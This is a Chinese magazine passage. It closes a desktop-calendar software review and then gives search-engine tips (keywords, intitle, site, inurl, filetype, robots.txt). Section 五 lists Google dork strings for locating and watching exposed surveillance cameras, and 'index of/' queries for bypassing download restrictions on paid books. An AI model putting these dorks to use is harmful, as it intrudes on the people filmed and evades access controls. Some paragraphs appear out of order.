我们单击“相框合成”对话框中的“应用返回”按钮，回到编辑器窗口，现在的日历就成为了你所设计好的样子了。

Step 4：最后，我们单击“文件”→“另存为”，将日历保存在适当的地方，然后再用这一方法制作其它月份的日历（即通过改变“相框合成”对话框中的“开始月份”来实现）。最后存储为12个JPG文件就可以了，如果你马上想看到成果的话，现在就开始打印吧！

大家是不是都已经学会了如何用 iSee 来设计制作台历了呢？相信聪明的你一定没有问题。这里我们向你介绍的只是比较简易的台历制作方法，如果你想把它做得更加精美的话，就一定要再多下些功夫！

刚刚我们介绍的几款台历都是可以打印出来使用的，可是这些看似精美的台历最好是彩色打印，也只有这样才能更好地体现它们的风格。正因为这样，很多没有彩打的朋友选择使用电子台历。其实，如果你经常在电脑前工作的话，一款电子台历使用起来也很方便。下面就给大家介绍一款人气最旺的电子台历吧，有了它，相信你一定会有意外的惊喜！

#### 四、电子台历也精彩——迷你电子台历2.13

| 项目 | 内容 |
| :--- | :--- |
| 软件大小 | 4722 KB |
| 软件类别 | 国产软件/时钟日历 |
| 软件语言 | 简体中文 |
| 运行环境 | Windows 9x/NT/2000/XP/2003 |
| 推荐指数 | ★★★★★ |
| 推荐感言 | 体积小、功能大的鬼斧神工之作，且具备打印功能。 |
| 下载链接 | http://www.skycn.com/soft/14058.html#download |

你可曾想象过会有这样的一款台历（图4），它不但能显示公历、农历以及各个节气、国际节日和年月日时，还能显示生肖、天干地支、时辰等内容。此外，它还能够用来做记事本，无论是日程安排还是备忘、记事都能保存，更值得一提的是，它还能动态地提醒我们一些重要的事情。



“迷你电子台历”不用安装就能直接使用，很方便。而且，对于公共节假日之外，那些其它的属于我们自己的值得纪念的日子，这款电子台历都可以帮我们进行自定义。因此，我们不得不感叹设计者的良苦用心。

这款台历的一大特点就是它的闹铃功能，只要你有事情，就可以在软件中设置好，它就一定会第一时间提醒你去做该做的事。提醒的次数你也可以根据不同的现实情况分别设为每日提醒、每周提醒，或者是每月、每年提醒。它的界面也可以自己进行DIY配置。可能有的朋友就会问了，这样的一个万年历该不会总运行着吧？这该有多麻烦啊，还可能因为占用屏幕空间而影响到其它窗口的正常使用。其实没关系，这款台历可以进行最小化，这样一来它占的地盘就很小了，绝对不会影响到你的正常工作和学习。而且最小化窗口不是总浮动在屏幕最前端，因此，你可以该干什么还干什么，它一点也不会影响到你。

我们就给大家简单介绍一些常用的比较有特色的功能，这些操作不但便捷，而且人性化十足。

##### 特色功能1：闹铃功能

有了这个功能，你就可以不必伤脑筋地记着某些事情了，更不会因为工作或学习的繁忙而忘记了很多重要的聚会。以后有事情就用它来提醒吧！闹钟的声音可以自行设置。它的操作十分简单，只需单击时钟的图标，然后在弹出的对话框中单击“选项”按钮，于是就会出现一个“闹钟设定”的对话框，单击“闹钟”标签，就可以根据自己的喜好来进行设置了。比如我们设定好一个时间来提醒自己睡觉，于是到了指定的时间，系统就会来提示你。

此外，我们在设置备忘录的时候也是遵循这样一个顺序，通过单击时钟图标→“选项”，再在该对话框中选择“备忘录”标签，单击“增加”后就可以设置闹铃时间、键入提示内容了，然后单击“确定”即可生效。但是一定要注意的是，闹铃的声音一定要符合WAV文件格式，否则是无法添加进去的。再者，时钟也能够进行换肤，对比一下换肤前后的变化吧，看看效果如何？

##### 特色功能2：增加日程功能

这一操作的实现非常简单，我们只要单击“日程”按钮，再在弹出的窗口中单击“增加”，出现一个计划数据录入的对话框，在这里我们就可以进行设置了。此外，我们还可以进行对原有日程的修改和删除，如果计划执行完毕，我们还可以进行记录，十分方便。

##### 特色功能3：通讯录

通过单击“通讯录”按钮，我们可以进行通讯录的键入、修改内容等操作，十分简单。在弹出的窗口中单击“增加”，于是，在窗口的左下方就出现了亲戚通讯录的内容。键入相应的信息，单击“增加”按钮完成单个人物的通讯录的创建。通讯录还分为“亲戚通讯录”、“朋友通讯录”和“特别通讯录”三个标签，能够帮我们更好地进行联络人的分组。有了它，我们找朋友的电话或联系地址的时候就不用再着急了。

##### 特色功能4：设置功能

我们单击打开这款软件的“设置”按钮，就可以发现，它还可以进行定时关机、调色板等设置，我们就它的调色功能做一下简单介绍：

不知道刚刚下载完成这款软件的朋友在第一次运行它的时候有没有这样的体会，那就是它的界面颜色太老气了。的确，这个界面算不上美观，连同刚才的时钟界面也是一样。其实，这款软件并不是近年才开发出来的，因此它的颜色设计并不显得时尚。但是，由于它的设计者良苦用心，使用户们一直以来都不曾减退对它的热衷。通过调色板的颜色配置，我们就可以经常为台历换衣服了。

##### 特色功能5：“更多”功能

从软件很惹眼的位置，我们就可以看到它的“更多”按钮，单击该按钮后，我们就可以看到它的众多拓展功能都十分实用。如：修改口令、密码管理、秒表、计算器等等，这在无形当中带给我们很大的方便。值得一提的是，它的打印功能也得到了很好的体现。

总之，尽管这款软件很迷你，但是它的功能十分全面，就像一个小秘书一样，成为很多上班族的得力助手。真算得上是“麻雀虽小，五脏俱全”。相信一款这样优秀的软件一定会吸引更多的眼球。

综述：以上介绍的四款台历制作软件各具特色，有的简易大方，有的精美别致，也有的小巧方便。但是无论你选择哪一种类型的软件，都会为你的生活增加不少美丽的色彩，亲自制作的台历更可以成为一份赠送亲友的珍贵礼物。既然这样，那么就别再犹豫了，大家赶快行动，DIY起来吧！

## # # 小技巧、大智慧
——帮你一搜到底



> > 文 / TMG zcy

引言：只有想不到，没有搜不到。现在的网络如此发达，任何东西我们几乎都能在网络当中找到答案。但是有时候我们使用搜索引擎，想要的不想要的都被搜索出来了，于是，我们得出了这样的一个答案——想要的时候不好找，不想要的时候各式各样的信息却“漫山遍野”！呵呵，真的是急煞了众人啊！

大多数人使用搜索引擎的情况是依据自己的习惯来定，但是似乎都遇到了上面我们提到的问题，就是搜索出来的内容往往不总是尽如人意，搜索引擎真的这么“笨”吗？不论如何，这也是科技和时代高速发展的产物啊。其实，我们使用的搜索引擎在技术上已经很纯熟了，只是我们自身在使用的时候并没有很好地掌握使用的技巧而已，搜索引擎的功能真的是很强大的哦！下面就给大家介绍一些常用的使用搜索引擎的小技巧，掌握了这些技巧，保证你的搜索会变得加倍的省时省力，效果也会更加出色！

#### 一、关键字要神速

常用的搜索引擎加上关键字的选用就可以轻松地完成你的搜索任务，即便是同一主题，选用不同的关键字就会出现不同的搜索结果。但是如何选取关键字，就成为了一个很重要的问题。

- 推荐指数：★★★★★
- 实用指数：★★★★★
- 综合评定：★★★★★

##### 1. 关键字表述

同样的搜索引擎和主题，搜索结果却往往大相径庭，原因就在于关键字的表述存在着很大的差异。我们举一个简单的例子，比如要搜索关于中国人境外旅游的国际形象问题，如果在搜索引擎的关键字中输入“中国人境外旅游国际形象”，那么，搜索出来的结果可以说是不甚乐观的。因为有很多不需要的信息也都随之出现，再进行筛选找到想要的内容还要花费很多的时间。如果我们改变关键字的表述的话，结果就会大不相同了。现在，我们将关键字改为“境外旅游形象”，这下，搜索出来的信息就显得比较精简了。我们来对比一下两种关键字表述的不同搜索结果，不难看出，关键字的表述是非常重要的。

此外，在关键字的表述上，使用多关键字组合的形式也往往会有意想不到的收益。比如我们在关键字中输入“天气预报”进行查询的话，搜索出来的结果就会包含很多城市和国家的天气预报内容。如果我们在搜索出来的天气预报网站中，再进行二次查找某一城市情况的话，就太麻烦了。应该说，天气预报和你所要查询的城市名称都应该是完成搜索过程的关键字，因此，我们可以将这两个关键字进行组合，并以空格将二者隔开，就可以得到相对满意的搜索结果了。如：进行“天气预报 北京”搜索，就会出现北京地区的天气情况的信息。

“A-B”作为关键字进行搜索，也是一个很好的排除不相关内容的搜索途径。用这种方法来搜索内容A的同时还可以过滤掉内容B的相关信息。如我们在搜索“女权运动”的相关资料时，想得到一些关于女权运动发展历史的内容，我们就可以用这种方式来进行搜索：即在关键字中输入“女权运动-历史”，就可以得到想要的结果了。

##### 2. 关键字打擂台

如果你想要比较一下两个专业哪一个目前更热门、要报考的哪一个导师更权威，是不是一下子就不知道如何是好了呢？其实不必着急，也不必费心费力地去四处打听，我们的搜索引擎完全可以做到这一点。搜索引擎可以将你想要比较的两个内容作为关键字进行热门程度的比较，并得出答案。如果你正处于为难的状况，那么，这个搜索引擎的特殊功能应该可以帮上你不少的忙。

首先，我们要在浏览器地址栏中输入“http://www.google fight.com”，打开后，在“Keyword#1”和“Keyword#2”中分别输入待比较的两个关键字内容，输入后再单击“Make a fight！ ”，这两个关键词就可以进行PK了。这时，你还会看到一段Google播放的PK动画，一段动画过后就能得到比较的结果了。

然而，这种特殊的擂台赛也存在着它的不足之处，那就是它目前还不支持中文关键字的格式。尽管这样，它独特的强大优势也确实值得向广大用户推广。

##### 3. 标题关键字

我们在用关键字搜索相关的信息时，由于搜索引擎将标题与内容一视同仁的对待，因此，搜索的结果总是包含了很多网页中的具体内容，干扰我们对信息的筛选。尤其是一些做过SEO优化的网站，它们的排名往往会更加的靠前，但是点击后就会发现，其实内容上并不存在什么太多的价值。所以，如果我们可以只搜网页的标题的话，搜索的准确率就会得到大大的提高。

其实，这种目标并不难做到，我们的搜索引擎也完全做到了这一点，可惜的是，我们广大用户并没有掌握这种搜索的技巧。下面就为大家介绍一下这种标题搜索的技巧，那就是使用intitle语句。

使用intitle语句其实就是将关键字定义在标题的范围之内。也就是说，在标题中进行搜索。例如：我们想要搜索韩国男星Rain的写真，那就可以用“写真 intitle: Rain”作为关键字进行搜索，其搜索的结果就是标题中包含Rain写真的网页了。

其实，正如字面上的意思所示，页面最上方的标题内容就是页面的Title信息，而intitle实际上就是缩小了搜索的范围。如此对网页标题进行搜索，从而达到对有用页面内容的获取，真是给我们省了不少的力气。

##### 4. 关键字不拆分原则

说起这搜索引擎的智能化水平可真不愧是高科技产品的典范，我们在关键字中随便输入一些内容，搜索出来的结果不但包括那些关键字连在一起的内容，还有一些是将关键字分散开来的。我们以用“奥运会志愿者”为关键字进行搜索为例，不难看出，搜索出来的结果很多都是将这几个关键字进行拆分后的内容。

但是，我们如果在搜索时，将关键字加上半角双引号的话，结果就大不相同了。加上半角双引号之后，关键字就不会被拆分了，而是时时刻刻以整体形式出现在我们的面前。

其实，我们一般在进行搜索的时候，往往不需要这些关键字被拆分后搜索出来的内容，而是以关键字整体形式出现的部分。尽管这种引擎将关键字进行拆分的小聪明往往也会给我们带来很多意想不到的惊喜，但是更多的时候它会造成搜索结果的极度不准确。因此，这时候我们用一个很简单的半角双引号，就能很好地解决这个问题了。加上半角双引号的关键字能够时时刻刻保证紧密地团结在一起，让你百分百的放心。

此外，如果你选用中文标点识别能力强的百度作为搜索引擎的话，我们还有一些妙招提供给大家哦！那就是在关键字前后加上书名号，于是就可以进行专有名词的搜索了。比如我们在百度中搜索“长征”，于是在结果中就会出现很多很多长征的相关内容。可是如果我们搜索“《长征》”就会看到大多数的搜索结果都是关于影片《长征》的资料和信息了。

#### 二、贴身小秘书

- 推荐指数：★★★★★
- 实用指数：★★★★★
- 综合评定：★★★★★

##### 1. 轻松做算术

如果你目前从事的专业很少接触到数学运算的话，恐怕学生阶段的很多知识你也已经忘记得差不多了。但如果很偶然的机会使你再次接触到了这些运算，相信很多人都会眼睛发黑、无所适从。这时候的你也许会转向身边的人请教，但是大家的工作都很忙，你忍心打扰别人吗？即便是问了身边的人，恐怕也未必可以给你满意的答复吧！当然，你也可以找本书来临时抱佛脚，不过，估计连你自己也担心能否找到书，而且这样做的效率到底是否可以尽如人意。如果是领导正在等着你的工作报告的话，最后一种方法也就完全不存在可行性了。不用着急，都说过了我们的搜索引擎是很智能化的，有了它，等于是给自己请来了一位贴身的小秘书，而且是百依百顺的哦！

对于一般的数学计算，我们常用的百度和Google搜索引擎都可以说是不在话下，但是如果是相对复杂的计算公式的话，恐怕与Google相比，百度就显得相形见绌了。我们以Google为例，计算log（（sin（5））^2）-3+pi的值，看上去人脑操作有一定难度的计算，用Google来做，绝对快捷而准确，一定会给你带来很大的惊喜（图1）。


以上就是我们用Google来计算log（（sin（5））^2）-3+pi的值，速度真无愧于“电脑”的称号啊。我们只需要在Google引擎中的关键字位置输入“log（（sin（5））^2）-3+pi”，然后单击回车键，计算结果就一目了然地摆在我们面前了。当然，对于这种难易程度的运算来说，用百度来进行搜索也是丝毫没有问题。此外，百度还提供了“百度计算器”服务，我们还可以进行更多内容的计算和查找。

##### 2. 便捷的翻译官

遇到不知道意思的英语单词或是不知道怎么把中文翻译成适当英文的时候，估计大家首先想到的就是“金山词霸”等一系列翻译软件。可是如果你的电脑上刚好没有安装翻译软件，又不清楚在线翻译网站的具体地址，你可能会选择翻译软件的下载安装或是通过搜索引擎找到一个在线翻译的网站。这两种方法都是十分可行的，但是下载安装翻译软件也离不开使用搜索引擎来进行查找，几番周折地找到后还要费劲地下载，网络条件好坏也是一个制约因素，之后还要进行安装，搞不好还要重启电脑以实现软件的可用；再说第二种方案，仍旧是要用搜索引擎查找网站，然后再进行网站的筛选……说实话，听起来就感觉像是要经过千锤百炼才有可能练就一身本领，真是太折腾人了。

其实我们大可不必那样，如果我们能够用搜索引擎直接进行翻译的话就似乎前卫了许多。我们就以百度和Google两个搜索引擎为例，它们都可以进行直接的翻译。我们不妨回过头去再对比一下我们刚刚提到的两种方法，你不感觉我们像是通过时光穿梭机来到了高度智能化的未来世界了吗？

我们可以在百度的关键字中输入你要查找的英语单词或中文汉字，单击回车键之后，在搜索结果界面中再单击“词典”，就可以得到你想要的中文或是英文翻译。值得说明的是，百度的翻译功能只限于中文和英文之间的互译，并且默认为这两种语言的互译，完全可以满足一般用户的翻译需求。

Google的翻译功能相比百度而言就显得更为全面了，它提供了很多种语言的翻译功能。在Google主页中点击“更多”，然后我们就可以看到“翻译”选项，点击进入后就可以进行翻译了。此外，它的待翻译文字可长可短，还提供了网页翻译功能，十分方便。更为人所惊叹的是Google提供强大的语言支持功能，可以将Google的主页、消息和按钮等改成一百多种语言，真是够劲爆！

有了搜索引擎为你做翻译，是不是很便捷很轻松啊？我们不用翻译软件也不用在线翻译网站就可以直接快速翻译，在这个注重效率的社会里，这样的速度才不会扯你的后腿啊。

##### 3. 数据转换没问题

如果你是公司的会计，一定会经常面对那些不同的货币单位吧？不同货币间的汇率你都了如指掌吗？不背得滚瓜烂熟是不是就很难轻松应对工作呢？其实根本没有那么夸张啦，不清楚汇率一样可以应付得来。而且，我相信你的工作效率绝对不会比别人慢，而只能是更快。

如果你要完成5.5美元等于多少人民币、25英寸等于多少厘米换算的话，一般的计算方法是要首先知道前后两个单位的对比值是多少。而现在，我们不用知道对比值也可以直接在Google中进行换算了，而且完成得还十分轻松和快捷。例如，我们在Google的首页中输入关键字“5.5 USD=? RMB”，单击回车键就会马上出现你想要的结果，5.5美元是多少人民币的问题轻轻松松就解决了（图2）。

#### 三、精准就是准

- 推荐指数：★★★★★
- 实用指数：★★★★★
- 综合评定：★★★★★

##### 1. 缩小搜索范围

虽然我们利用搜索引擎来进行信息的搜索是一种目的性很强的工作，但是每次输入关键字搜索的结果都是极其庞杂。因此，我们不能不说这是一种类似于海选的方法向我们提供搜索的结果。而且，只要是包含关键字的内容，在搜索的结果中我们都能找到，这样一来，就为我们找到合适的内容增加了不少的难度。因此，我们可以通过缩小搜索的范围来使搜索工作变得更加简洁。

比如我们打算在特定网站中搜索与关键字有关的内容，如一个包含关键字的DOC文件等，就可以在搜索引擎中的关键字上添加一些过滤参数来实现对搜索结果的精心筛选。此外，值得一提的是，针对我们常用的Google引擎来说，它在互联网中有着数千台的搜索服务器和镜像，因此要保证全球的同步更新真的很困难。再者，由于语种的更新和服务器的更新时间并非同时进行，所以本着实用的原则，我们也应该选用一个更新最快的服务器来使用。如果是中文搜索的话，我们在此推荐使用http://www3.google.com这台服务器，它相比较 http://www.google.com服务器而言，在中文的更新上要略胜一筹。

如果我们在搜索关键字的时候，将特定的站点与关键字同时输入进行搜索的话，确实可以使我们搜索的范围固定在特定的站点范围内。但是很多网站本身提供的搜索功能并不强大，我们使用其自身的搜索引擎进行搜索时，并不一定可以顺利地得到自己想要的结果。假设我们在Google中输入“隐私 site: www.xxx.com”，看上去这样的搜索结果一定会更加有指向性，只是搜索该网站中的关于隐私的内容。但是Google的site关键字只能把搜索范围限制在www.xxx.com这一级域名内，而不能进行更为具体的内容搜索，哪怕是www.xxx.com/news也不能实现。因此，看上去是给关键字加上了更为高级的过滤参数，但是结果却不那么尽如人意。

为了解决上面的这一问题，并仍旧保留对指定页面的搜索目的，我们最好的应对策略是使用inurl参数。即：搜索特定链接中的关键词。举例来说，我们要搜索网站中关于Windows的操作技巧内容，又发现该网站中的所有关于技巧的文章的URL都包含“jiqiao”，因此，我们就可以通过键入关键字“Windows site: www.xxx.com inurl:jiqiao”来进行xxx网站中的关于技巧内容的搜索，保证实用又快捷。

##### 2. 图片搜索

似乎每个人都有找照片、图片或是下载图片的经历，而且这看起来并不是一件很难做的事情。很多搜索引擎都可以专门进行图片的搜索，Soso、百度、Google、Sogou等等众多搜索引擎都可以帮我们做到这一点。而且，借助它们，搜索出来的图片数量大、形式多、令人目不暇接。但是你有没有想过，搜索出来的图片有多少是可以用的、是清晰的，又或者是格式正确的？很显然我们几乎都有过获取图片失败的经验，也许是图片不够清晰，也许是像素不够等，原因多种多样。那么，为了挑选合适的图片，无形当中就占据了你的大量时间和精力。我们应该如何来进行图片的获取呢？下面就和大家简单地介绍一下：

常用百度的人都知道，百度的图片搜索提供了新闻图片、全部图片、大图、中图、小图和壁纸几种形式，因此只要对获取的图片要求得不那么较真儿的话，通过选择这几个选项就可以大体地固定搜索出来的图片大小了。当然，如果是要进行相对精准的搜索的话，我们可以点击“高级”选项，在弹出的图片高级搜索页面中（http://image.baidu.com/gaoji/advanced.html）键入关键词、图片类型、大小、格式、以及限定的搜索网站范围，然后，我们只需要轻松地“百度一下”，就可以得到我们需要的图片搜索结果了。如果你将关键字键入为“特奥会”、站点限制为www.sohu.com，搜索出来的结果实际上就意味着是在sohu网站中搜索出来的关于特奥会的图片。

Google的“高级图片搜索”功能也是一个较为严谨的图片搜索工具，它不但具有百度的图片高级搜索的设置选项，还可以进行图片内容类型和图片颜色的限定，因此更加全面和丰富。

##### 3. 多媒体搜索

网络时代的来临很大程度上是给人们营造了一种时尚的多媒体环境，电脑用户最热衷的恐怕也是多媒体文件的获取。正是因为动画、影视、音乐等文件的存在，使我们对网络环境更加痴迷。但是网络上很多在线收听或者观看的节目由于网络条件的干扰，如在线人数过多等原因而难以流畅地欣赏。于是，我们都乐于选择在网上下载一些喜欢的多媒体文件，比如热门的大片、某某歌手的新专辑、Flash动画等。然而，在网上搜索到那些想要的多媒体文件似乎真的有一定的难度。关键字和搜索引擎的选用如果不恰当，就很可能降低我们下载的命中率和成功率。因此，掌握一些相应的搜索技巧还是大有裨益的。

其实，有很多搜索引擎提供了一些专业的定向搜索，比如Sogou的“音乐”、百度的“MP3”、Google的“视频”等。我们以百度为例，打开首页后点击“MP3”，或者在浏览器中手动输入“http://mp3.Baidu.com”，进入到MP3界面后就可以随意地选取不同格式、键入相应的关键字进行搜索了。尔后，你就可以得到想要下载音乐的地址了。

用搜索引擎来进行多媒体文件的搜索，我们往往不能获取想要得到的下载成功率，也无法限制下载的方式。因此，若是明确了下载的类型后再进行下载，就更加高效了。常见的方式有FTP下载、BT下载、P2P搜索等。FTP下载方式可以选用星空互联的FTP星空搜索以及北京大学的天网FTP搜索引擎等，两者的地址分别为：“http://www.sheenk.com/ftpsearch/search.html”、“http://bingle.pku.edu.cn”；对于P2P搜索，我们可以使用下载软件的搜索功能，如百度下吧、PP点点通等，还可以选用P2P搜索引擎，如P2P中国（http://www.ppcn.net）等；关于BT下载，我们可以使用BT特工搜索引擎（http://bt.igdbol.com）、BT守望者（http://bitower.com）等来完成。

最后，如果你点击Google主页的“更多”选项，你就可以发现在Google的搜索服务中还有支持搜索网络视频的“视频”选项。点击进入后就会发现Google为广大用户可谓是考虑得十分周全，它庞大的视频资源让你目不暇接，不但提供了供参考的每天更新的前一百名榜单，还对视频进行了热门、幽默、娱乐、体育、音乐、动画的分类。此外，用户更可以同时尝试观看它的国际版，这一设计令人惊喜不已。

##### 4. 特定文件搜索

刚才我们介绍了很多关于图片、多媒体的搜索方法，应该说这些都属于特殊性质的文件搜索。但是，无论如何，目前很多引擎已经专门设立了这些文件的特有搜索途径，百度的图片搜索、Google的视频搜索等都是极佳的典型。那么，其他格式的文件是否也能进行类似的快速搜索呢？

如果你热衷于各种Flash而苦于难以找到搜索的便捷途径；如果你想搜索一些PDF或DOC等格式文件而不知从何下手……相信在搜索结果中海量的捕捉真的是有如大海捞针，恐怕再勤劳你也马上要坚持不住了吧？其实，这种特定文件的搜索也真的是有捷径！

这种捷径其实实现起来并不难，你只要使用“filetype: 文件名 关键字”进行搜索就可以了，搜索的结果也一定会令你赏心悦目。我们以搜索一个生日快乐的Flash动画为例，在Google首页中键入关键字“filetype:swf 生日快乐”，点击回车键，其结果就都是关于生日快乐的Flash动画了（图3）。

对于其它格式的文件，我们也可以使用这种方法，在关键字中键入“filetype: ppt 对外汉语”，搜索后的结果就都是关于对外汉语内容的PPT文件了。现在你做何感受呢？有了这种方法，搜索特定的文件是不是变得十分轻松了呢？看来我们对于搜索引擎的了解真的还有待更多的学习和探索。

#### 四、网页也“隐身”

- 推荐指数：★★★★★
- 实用指数：★★★★★
- 综合评定：★★★★★

搜索引擎之所以有这么强大的信息捕捉能力，源于它的独特抓取功能，搜索引擎会使用机器人抓取各个网站中的内容。因此，只要网站处于一个公开的网络空间，就有可能被搜索引擎所捕获和搜索到。那么，我们的个人网站或博客中如果有一些比较隐私的内容的话，也很有可能被搜索引擎无情地泄露。那么，如果我们不希望自己的隐私被泄露的话，应该怎么做呢？我们可以人为地将网站进行隐藏吗？

#### 五、冲破搜索的禁锢

当然可以！那就是借助robots协议。机器人在访问一个网站的时候，它会首先检查该网站中是否存在robots.txt文件。也就是说，如果机器人发现了这个文件，就会根据这一TXT后缀的文件内容来确定它的访问权限的范围。所以，我们只需要在自己的网站根目录下放入一个robots.txt文件，尔后在文件中对机器人的访问权限进行相关设置，就可以使我们的网站处于一种部分或全部的网络隐身状态了。

此外，对于网络不精通的用户，我们在此再为你多做一些解释：具体来说，robots的语法构成主要有User-agent和Disallow两部分组成，前者用于控制搜索引擎的种类，后者用于控制不允许访问的网站目录。因此，如果我们允许所有的搜索引擎都可以捕获和访问网站，却不让它收录img、eng目录中的任何内容，就可以将该robots.txt写成如下的形式：

```
User-agent:*
Disallow:/img/
Disallow:/eng/
```

其实有很多网络都有一定的访问限制，因此随便地进行访问恐怕有一定的难度，不允许我们访问或者是即便允许也不设立访问的入口、不知道完整的链接，比如一些图书、软件或是即时的摄像头画面等都加上了诸多限制。因此，若要想冲破这种禁锢就需要对关键字进行一下特殊处理了。

比如对一些在线的摄像头的搜索，我们需要在Google关键字中输入“inurl: "ViewerFrame? Mode="”或者“inurl: "MultiCameraFrame? Mode="”、“inurl: "View/index.shtml"”，然后单击回车键打开搜索结果，如果打开其中的相应链接，我们就可以看到世界上某一个监视镜头拍摄下来的图像内容了。

此外，对于一些想要下载的内容，由于存在网页的验证限制，所以我们很难突破这些限制而顺利下载，因此我们可以通过关键字“index of/”来跳过网页的验证限制而直接找到所需资源的下载链接。比如我们输入“index of/inurl: lib”就可以找到很多图书下载资源，对于超星图书馆的一些VIP图书下载地址也可以通过搜索“"index of /"cnki"”关键字找到。其它的一些视频、软件、Flash等也都可以通过这种方法直接找到它们对应的下载地址。

#### 六、定制人性化搜索

几乎每个人都有着自己相对比较关注的话题，因此在浏览新闻等网页时，我们总是喜欢用搜索引擎来搜索关键字，找出那些我们所关注的资讯内容。如果你比较关注汽车经济的话，每次上网打开搜索引擎输入关键词“汽车经济”来进行信息的查找就显得非常麻烦了。如果可以定制汽车经济的搜索页面，或者将这些相关信息发送到你的邮箱，而且随着信息的更新，不断有新内容发送到邮箱里就方便多了。事实上，这绝不是空想，搜索引擎可以提供这种功能，有了它，定制个性搜索变得十分容易，人性化十足！

通过Google首页，我们可以打开它的“更多谷歌产品”界面，点击“搜索服务”目录下的“快讯”选项，就可以进行快讯的创建了。在右侧输入你要搜索的关键字、文章类型、更新频率和电子邮箱地址，再点击“创建快讯”按钮，就定制完成了。而后Google会定时地以邮件的形式发送你所需要的信息至你的邮箱，以后看相关资讯就不用重复搜索关键字那么劳心劳力了（图4）。

除此之外，百度也可以进行新闻的定制，我们打开百度新闻搜索，点击“更多新闻服务”，就可以看到“邮件新闻订阅服务”选项，打开http://newsalert.baidu.com/na?cmd=0这一网页后，我们不但可以进行关键词的订阅，还能分类进行新闻订阅。同样，我们输入关键词和关键词位置，以及邮箱地址和每天的发送时间或新闻类别等内容，再点击“确定订阅”按钮，就完成操作了。剩下的事情就是你只需要经常看一下自己的邮箱就好了，真是轻松又方便。

#### 七、搜索必杀技

- 推荐指数：★★★★★
- 实用指数：★★★★★
- 综合评定：★★★★★

##### 1. 清除搜索记录

经常用搜索引擎的人都知道，搜索的次数多了在搜索框里就会出现很多搜索的历史记录，那些手动输入的关键字由于IE自动完成功能的开启而被完整地记录了下来。因此我们在使用时经常会因为这些记录而被干扰，时间一长更成为搜索时候的累赘。

其实这些搜索记录是很易清除的，清除的方法也不止一种。第一种方法是我们将光标定位于搜索框内，然后双击鼠标。于是，所有的历史搜索记录都以列表的形式弹了出来。这时候，我们只需按住键盘上的“Delete”键不放，于是，所有的历史搜索记录便会轻松地逐一删除。但是这种方法也存在一些缺点，因为它只是暂时的解决记录的方法，只要电脑开启了自动完成功能，搜索记录仍然会逐渐地积累。因此，如果选用这种方法的话，建议你一定要勤快一些为妙哦！

此外，我们还可以用另一种办法来清除这些历史搜索记录，而且这种方法更能彻底地解决这一问题，真正做到一劳永逸。我们通过“开始”菜单→“控制面板”→“网络和Internet连接”→“Internet选项”，然后在“Internet属性”窗口中切换到“内容”标签，再点击“自动完成”按钮，在弹出的“自动完成设置”窗口中单击“清除表单”，于是，所有的搜索记录就被删除掉了。如果我们再将“表单”的勾选去除的话，那么以后所有的历史浏览记录就不会再被记录下来了（图5）。

##### 2. 能“延时”的快照

我们都有着这样的经历，就是在利用搜索引擎输入关键字之后，我们打开搜索出来的网页，经常会看到一些网页由于地址屏蔽或网络故障等原因，不能打开或显示已经过期。这种情况我们自己也确实没有办法解决这个问题。但是，搜索引擎却能帮我们将这些过期了的网页延长期限，尽管它们无法打开，但是我们仍然可以浏览。能够做到这一点，完全依赖于搜索引擎的网页快照功能。有了搜索引擎的快照，那些失效了的网页真的得到了重生。

不同的搜索引擎对于网页快照有着不同的名称，但是都是为了使无法显示的网页得到恢复。百度将其命名为“百度快照”，这一服务在使用的时候，并不会给用户带来更多的麻烦，你只需要按照惯有的方式在百度的首页输入关键字，然后点击回车键进行搜索，在搜索出来的结果中，对于那些无法显示的网页我们可以点击链接旁边的“百度快照”链接就可以轻松地将网页“延时”了（图6）。

以上是百度的快照功能，为我们搜索网页带来很大的方便。值得一提的是，对于Google来说，它的快照功能似乎并不那么强大，但是它却提供了“类似网页”的服务支持。即便是链接的网页无法显示，我们也可以通过类似网页的查找来找到相关内容的网页。我们以旅游产业为例，在关键字栏中输入“旅游产业”之后进行搜索，然后再点击搜索出来的链接旁边的“类似网页”链接，我们就可以看到如下的内容了。这些Google特有的类似网页功能为我们的资料搜索带来了很大的方便（图7）。

##### 3. 拼音也能搜

如果你常常用五笔输入法的话，遇到不会写的汉字的时候，恐怕就一下子傻眼了吧？当然，也许你会问，现在更多的人用的都是拼音输入法，不会写还不会拼吗？其实，没你想象的那么简单，即便是用拼音输入法来键入汉字的话，你可以保证你键入的内容没有错别字吗？遇上一些比较长、平时并不常用的多字词语，恐怕每一个输入法都不能保证可以有强大的字库后盾做支持，能够联想到那个你需要的词语。遇到这种问题我们到底应该如何解决呢？类似的软件似乎也并不常见，恐怕唯一能做的也就是找来汉语词典亲自查找，但是似乎这样做花费的精力和时间又太大了，真是很令人头疼的一件事情。

其实，有了搜索引擎就可以轻松地帮我们找到想要输入的词语，做法也很简单。在搜索引擎中的关键字框中输入我们想要的词语的汉语拼音，单击回车键进行搜索，结果就会令你大吃一惊，生僻字一下子变得不再生僻了（图8）。

##### 4. 号码、天气大探秘

相信我们每一个人都有浏览论坛的经历，应该说论坛是一个很好的交流园地，尽管大家不曾相识，但是却因为有着共同的爱好和专业、以及共同关注的内容而走在一起。很多论坛都有着固定的访问者，论坛上很多内容的探讨很有深度，很多学科的讨论也非常专业。甚至一些网友的经典文章我们无法在网页上找到，它们只在论坛中显身。因此很多朋友为了浏览论坛的一些信息不惜一一打开各大论坛的首页，然后细心地寻找自己想要的内容，真是够辛苦！其实我们没有必要那么辛苦，一些专门用于论坛搜索的引擎就可以帮上你的忙。有了它们，搜索论坛就是小菜一碟了！

如今，一些不良分子利用手机短信或电话来进行犯罪，很多莫名其妙的短信发到你的手机上令人甚为不快，再加上一些陌生的未接电话号码，都打扰着我们正常而和谐的生活。有时候回复一个陌生的号码可能会使我们损失几百元，但是查询一个号码的途径往往不是那么方便，是去营业厅还是下载安装软件都很麻烦。

估计很少有人知道搜索引擎还可以查询号码归属地吧？搜索引擎的这个功能真的为我们带来了很多福音，我们只需要在关键字中输入所要查询的电话号码，单击回车键之后就可以在搜索结果中看到该手机号码归属地查询的链接，点击后就会出现归属地的查询结果了（图9）。

目前提供论坛搜索的引擎有Teein中文论坛搜索引擎（http://www.teein.com）、中搜论坛（http://bbs.zhongsou.com）和奇虎论坛社区搜索（http://search.qihoo.com）。这三个论坛搜索的引擎各具特色，要用哪一个还是你自己来选择吧！

比如你有一个未接电话的号码为13888888888，可是这个号码对你来说非常陌生，现在你就可以利用搜索引擎来查询一下这个号码的归属地点了。查询结果显示的归属地是云南昆明，如果你没有昆明的朋友的话，恐怕对是否进行回复这一问题上，你就要好好地斟酌斟酌了。

